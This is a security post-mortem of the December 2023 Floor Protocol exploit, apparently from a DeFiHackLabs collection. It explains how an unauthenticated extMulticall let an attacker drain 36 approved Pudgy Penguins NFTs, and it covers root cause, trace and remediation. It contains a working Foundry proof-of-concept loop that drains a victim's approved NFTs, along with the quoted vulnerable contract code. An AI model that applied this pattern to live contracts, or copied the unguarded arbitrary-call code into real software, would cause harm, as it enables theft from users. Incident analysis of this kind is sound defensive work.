



# Floor Protocol Exploit — Permissionless `extMulticall()` Drains User-Approved NFTs

> **Vulnerability classes:** vuln/access-control/missing-auth · vuln/dependency/unsafe-external-call

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo does not whole-compile,
> so this PoC was extracted into a standalone project).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [src_Multicall.sol](sources/FlooringPeriphery_c538d1/src_Multicall.sol).

---

## Key info

| | |
|---|---|
| **Loss** | ~$1.6M total across all victims (BAYC, MAYC, Pudgy Penguins, …). **This PoC reproduces one tx that drained 36 Pudgy Penguins NFTs** from a single victim (PPG floor ≈ 11–12 ETH each at the time ⇒ ~400 ETH / ~$0.9M of NFTs moved in this single call). |
| **Vulnerable contract** | `FlooringPeriphery` (implementation) — [`0xc538D17A6aAcC5271be5f51b891e2E92C8187edd`](https://etherscan.io/address/0xc538d17a6aacc5271be5f51b891e2e92c8187edd#code) |
| **Vulnerable entry point** | `extMulticall(CallData[])` on the periphery proxy [`0x49AD262C49C7aA708Cc2DF262eD53B64A17Dd5EE`](https://etherscan.io/address/0x49AD262C49C7aA708Cc2DF262eD53B64A17Dd5EE) |
| **Victim (this tx)** | EOA `0xe5442aE87E0fEf3F7cc43E507adF786c311a0529` — a Floor user who `setApprovalForAll(periphery, true)` on Pudgy Penguins |
| **Asset drained** | Pudgy Penguins (PPG) ERC-721 — `0xBd3531dA5CF5857e7CfAA92426877b022e612cf8` |
| **Attacker EOA** | `0x4d0d746e0f66bf825418e6b3def1a46ec3c0b847` |
| **Attacker contract** | `0x7e5433f02f4bf07c4f2a2d341c450e07d7531428` |
| **Attack tx (this PoC)** | `0xec8f6d8e114caf8425736e0a3d5be2f93bbea6c01a50a7eeb3d61d2634927b40` |
| **Other attack txs** | `0xfb9942…81d9c`, `0xa329b2…7ccf` (other collections/victims) |
| **Chain / block / date** | Ethereum mainnet / 18,802,287 / Dec 15, 2023 |
| **Compiler** | implementation built with Solidity v0.8.20, optimizer 1 run |
| **Bug class** | Missing access control on an arbitrary-external-call multicall (confused-deputy / approval-abuse) |

---

## TL;DR

Floor Protocol ("Flooring Lab") fractionalises blue-chip NFTs. To deposit, users `setApprovalForAll`
on the **FlooringPeriphery** contract so it can pull their NFTs into the protocol.

The periphery exposes `extMulticall(CallData[] calls)` which, for each entry, executes
`calli.target.call(calli.callData)` — **an arbitrary external call to an arbitrary target with
arbitrary calldata, with `msg.sender == the periphery contract`, and no access control whatsoever**
([src_Multicall.sol:39-72](sources/FlooringPeriphery_c538d1/src_Multicall.sol#L39-L72)). The
interface's own NatSpec says *"Allow **trusted caller** to call specified addresses"* — but the
implementation never checks the caller.

Because the periphery is an approved operator for every user who has ever interacted with the
protocol, any attacker can call `extMulticall` and instruct the periphery to call
`PPG.safeTransferFrom(victim, attacker, tokenId)` for each of the victim's tokens. The transfers
succeed because, from the NFT contract's point of view, the caller (the periphery) is an authorised
operator.

In the reproduced transaction the attacker builds **36 `safeTransferFrom` calls** — one per Pudgy
Penguin owned by the victim — packs them into a single `extMulticall`, and walks away with all 36
NFTs. The PoC confirms: victim PPG balance `36 → 0`, attacker PPG balance `0 → 36`.

---

## Background — what Floor Protocol does

Floor Protocol lets users lock NFTs into "SafeBoxes" and mint fungible fractional tokens against them
(and later redeem). The core accounting lives in the **Flooring** main contract; the
**FlooringPeriphery** is a convenience/router layer that batches user operations such as
`fragmentAndSell` (deposit NFTs → mint fragment tokens → swap on Uniswap V3) and `wrapWETH`. Both are
UUPS proxies; the periphery proxy `0x49AD262C` delegatecalls into the implementation
`0xc538D17A` (`FlooringPeriphery`).

To use these flows a user must grant the periphery operator rights over their NFTs, e.g.
`PPG.setApprovalForAll(0x49AD262C, true)`. The protocol therefore accumulates a large standing pool of
NFT approvals from its users — exactly the asset the bug monetises.

The periphery mixes in a generic `Multicall` base
([src_Multicall.sol](sources/FlooringPeriphery_c538d1/src_Multicall.sol)) intended to batch the
periphery's own internal calls. One of its functions, `extMulticall`, was the door.

On-chain facts at the fork block (verified via `cast`):

| Fact | Value |
|---|---|
| `PPG.balanceOf(victim)` before | **36** |
| `PPG.balanceOf(attacker)` before | 0 |
| `PPG.isApprovedForAll(victim, periphery)` | **true** ← the precondition |
| Victim address code size | `0x` (it is an **EOA**) |
| `extMulticall` access control | **none** |

---

## The vulnerable code

### Arbitrary external call with no caller check

```solidity
// src_Multicall.sol
function extMulticall(CallData[] calldata calls) external virtual override returns (bytes[] memory) {
    return multicall2(calls);                                   // ← no auth, no role, no onlyOwner
}

/// @notice Aggregate calls, ensuring each returns success if required
function multicall2(CallData[] calldata calls) internal returns (bytes[] memory) {
    bytes[] memory results = new bytes[](calls.length);
    CallData calldata calli;
    for (uint256 i = 0; i < calls.length;) {
        calli = calls[i];
        (bool success, bytes memory result) = calli.target.call(calli.callData);   // ⚠️ arbitrary call
        if (success) {
            results[i] = result;
        } else {
            if (result.length > 0) {
                assembly { let returndata_size := mload(result); revert(add(32, result), returndata_size) }
            } else {
                revert FailedMulticall();
            }
        }
        unchecked { ++i; }
    }
    return results;
}
```

[src_Multicall.sol:39-72](sources/FlooringPeriphery_c538d1/src_Multicall.sol#L39-L72)

### The intent was an authorised caller — never enforced

The interface comment makes the original design intent explicit:

```solidity
// src_interface_IMulticall.sol:22-26
/// @notice Allow trusted caller to call specified addresses through the Contract
/// @dev The `msg.value` should not be trusted for any method callable from multicall.
function extMulticall(CallData[] calldata calls) external returns (bytes[] memory);
```

[src_interface_IMulticall.sol:22-26](sources/FlooringPeriphery_c538d1/src_interface_IMulticall.sol#L22-L26)

`FlooringPeriphery` even inherits `OwnedUpgradeable`, so an `onlyOwner` (or trusted-keeper) modifier
was readily available — it is used on `_authorizeUpgrade`
([src_FlooringPeriphery.sol:37](sources/FlooringPeriphery_c538d1/src_FlooringPeriphery.sol#L37)) — but
`extMulticall`/`multicall2` are completely open:

```solidity
// src_FlooringPeriphery.sol:24
contract FlooringPeriphery is FlooringGetter, OwnedUpgradeable, UUPSUpgradeable, IERC721Receiver, Multicall {
    ...
    function _authorizeUpgrade(address) internal override onlyOwner {}   // auth used HERE
    function initialize() public initializer { __Owned_init(); __UUPSUpgradeable_init(); }
}
```

[src_FlooringPeriphery.sol:24-42](sources/FlooringPeriphery_c538d1/src_FlooringPeriphery.sol#L24-L42)

---

## Root cause — why it was possible

The single mistake is **a privileged-by-design function that is not privileged-by-code**. Three facts
compose into a critical loss:

1. **`extMulticall` lets anyone make the periphery call any contract with any calldata.** The function
   forwards to `multicall2`, which does `calli.target.call(calli.callData)` for caller-supplied
   `target` and `callData`. There is no `onlyOwner`, no role check, no allow-list of targets, and no
   restriction on the selectors that may be invoked. The NatSpec ("trusted caller") shows the authors
   *believed* a guard existed; it does not.

2. **`msg.sender` of those inner calls is the periphery, which is a standing approved operator for
   users' NFTs.** Anyone who used Floor first did `setApprovalForAll(periphery, true)`. So when the
   periphery calls `PPG.safeTransferFrom(victim, attacker, id)`, the NFT contract sees an authorised
   operator and obeys. The periphery is a **confused deputy**: it holds users' trust (approvals) and
   blindly exercises that trust on behalf of an arbitrary caller.

3. **The set of victims is public and enumerable.** Anyone can read `isApprovedForAll` / on-chain
   deposit history to find every address that approved the periphery, and `tokenOfOwnerByIndex` to
   enumerate each victim's tokens — then drain them all in one batched `extMulticall`.

In short: a router that is *meant* to call only itself / protocol-internal targets on behalf of a
trusted keeper was shipped as an **unauthenticated arbitrary-call gateway** sitting on top of a large
pool of user approvals. That converts every approval the protocol ever collected into an
attacker-callable withdrawal.

---

## Preconditions

- The victim has an **active approval** to the periphery: `PPG.isApprovedForAll(victim, periphery) == true`
  (verified `true` at the fork block). This is the normal state for any Floor user.
- The victim still **holds** the approved NFTs (36 PPG here).
- That is all. No flash loan, no capital, no special timing, no privileged role. The attack costs only
  gas (this tx used **1,997,490 gas**).

The PoC reconstructs the victim's token list at runtime:

```solidity
IERC1967Proxy.CallData[] memory calls = new IERC1967Proxy.CallData[](PPG.balanceOf(victim));
for (uint256 i; i < PPG.balanceOf(victim); ++i) {
    uint256 id = PPG.tokenOfOwnerByIndex(victim, i);
    bytes memory data =
        abi.encodeWithSignature("safeTransferFrom(address,address,uint256)", victim, address(this), id);
    calls[i] = IERC1967Proxy.CallData({target: address(PPG), callData: data});
}
ERC1967Proxy.extMulticall(calls);   // ← drains all of them in one call
```

[test/FloorProtocol_exp.sol:51-61](test/FloorProtocol_exp.sol#L51-L61)

---

## Attack walkthrough (with on-chain numbers from the trace)

All figures below come directly from [output.txt](output.txt) (event log + storage diffs).

| # | Step | Caller / context | Effect (from trace) |
|---|------|------------------|---------------------|
| 0 | **Initial** | — | `PPG.balanceOf(victim) = 36`, `PPG.balanceOf(attacker) = 0`, `isApprovedForAll(victim, periphery) = true` |
| 1 | Read victim's tokens | attacker → PPG | `balanceOf(victim)=36`; `tokenOfOwnerByIndex` enumerates IDs (1349, 7983, 1024, 2375, … , 8723, 5866) |
| 2 | Build 36 `safeTransferFrom(victim, attacker, id)` calls | attacker | each targets PPG `0xBd35…2cf8`, selector `0x42842e0e` |
| 3 | **`extMulticall(calls)`** on periphery proxy `0x49AD262C` | attacker → proxy | proxy **delegatecall**s implementation `0xc538D17A`; `multicall2` loops |
| 4 | For each entry: `PPG.call(safeTransferFrom(victim, attacker, id))` | **periphery is `msg.sender`** | PPG sees approved operator → `emit Transfer(victim → attacker, id)`; attacker's `onERC721Received` returns `0x150b7a02` |
| 5 | Loop completes after 36 transfers | — | every PPG moved from victim to attacker |
| 6 | **Final** | — | `PPG.balanceOf(victim) = 0`, `PPG.balanceOf(attacker) = 36` |

Trace evidence for a representative inner call (token 1349):

```
[1934582] 0xc538D17A…edd::extMulticall([...]) [delegatecall]      ← proxy delegatecalls impl
  ├─ PPG::safeTransferFrom(victim, ContractTest(attacker), 1349)
  │   ├─ emit Transfer(from: victim, to: attacker, tokenId: 1349)
  │   ├─ ContractTest::onERC721Received(operator: periphery, from: victim, 1349, 0x) → 0x150b7a02
  └─ … (×36)
PPG::balanceOf(victim)   → 0
PPG::balanceOf(attacker) → 36
```

### Profit / loss accounting

| Item | Amount |
|---|---:|
| NFTs drained from victim (this tx) | **36 Pudgy Penguins** |
| Approx. PPG floor at the time | ~11–12 ETH each |
| Approx. value moved (this tx) | ~400 ETH (~$0.9M) |
| Attacker cost | gas only (1,997,490 gas) |
| Total campaign loss (all victims/collections) | **~$1.6M** |

The attacker subsequently fenced the NFTs (sold them on marketplaces) to realise the value; the
on-chain primitive measured here is the uncompensated transfer of 36 NFTs for the price of one
transaction's gas.

---

## Diagrams

### Sequence of the attack



### Confused-deputy data flow



### Victim balance state evolution



---

## Remediation

1. **Add access control to `extMulticall` / `multicall2`.** The function was designed for a "trusted
   caller" — enforce it. Gate it with `onlyOwner` or a dedicated keeper role (the contract already
   inherits `OwnedUpgradeable`). The simplest correct fix:

   ```solidity
   function extMulticall(CallData[] calldata calls) external virtual override onlyOwner returns (bytes[] memory) {
       return multicall2(calls);
   }
   ```

2. **Never expose an unrestricted arbitrary-call primitive from a contract that holds approvals.** A
   contract that is an approved operator for users' assets must never let an external party choose the
   `(target, calldata)` it executes. If batching of *protocol-internal* operations is needed, restrict
   targets to an allow-list (e.g. the Flooring main contract, the configured routers/WETH) and/or
   restrict the callable selectors — not a free-form `address.call`.

3. **Minimise standing approvals.** Prefer pull-on-demand patterns (`transferFrom` only within the
   specific user-initiated flow, ideally with single-token approvals or per-call approval) over
   `setApprovalForAll` to a router. Where blanket approvals are unavoidable, isolate them behind a
   thin, audited surface with no generic call capability.

4. **Treat router/periphery contracts as high-value targets in review.** Any function on an
   approval-holding contract that can be made to call out with attacker-controlled data is a critical
   confused-deputy risk regardless of the protocol's "core" logic being safe.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many
unrelated PoCs that fail to whole-compile under `forge test`):

```bash
_shared/run_poc.sh 2023-12-FloorProtocol_exp -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required (fork block 18,802,287, Dec 2023).
  `foundry.toml` is pre-configured with an Infura archive endpoint.
- Result: `[PASS] testExploit()` — victim PPG balance goes `36 → 0`, attacker `0 → 36`.

Expected tail:

```
  Victim PPG token balance before attack: 36
  Attacker PPG token balance before attack: 0
  Victim PPG token balance after attack: 0
  Attacker PPG token balance after attack: 36
[PASS] testExploit() (gas: 1997490)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 43.13s
```

---

*References: protos.com — "Floor Protocol exploited, Bored Apes and Pudgy Penguins gone"; @0xfoobar
(twitter.com/0xfoobar/status/1736190355257627064); defimon.xyz exploit page for the attacker
contract.*
